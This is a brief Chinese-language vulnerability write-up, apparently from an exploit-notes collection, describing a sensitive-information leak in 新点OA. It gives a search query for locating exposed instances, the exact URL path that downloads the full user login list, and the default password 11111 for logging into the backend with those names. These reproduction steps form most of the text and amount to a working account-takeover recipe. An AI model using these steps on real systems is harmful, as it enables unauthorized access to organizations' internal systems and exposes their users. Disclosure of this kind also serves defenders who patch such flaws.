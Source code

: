 # 新点OA ExcelExport 敏感信息泄露漏洞

# 新点OA ExcelExport 敏感信息泄露漏洞

## 漏洞描述

新点OA 存在敏感信息泄露漏洞，访问特定的Url时可以获取所有用户的登录名信息，攻击者获取后可以进一步利用

## 漏洞影响

```
新点OA
```

## 网络测绘

```
app="新点OA"
```

## 漏洞复现

构造的Url为

```plain
/ExcelExport/人员列表.xls
```

将会下载人员列表文件

![xindian](/images/xindian.png)

通过获取的登录名登陆后台(默认密码11111)

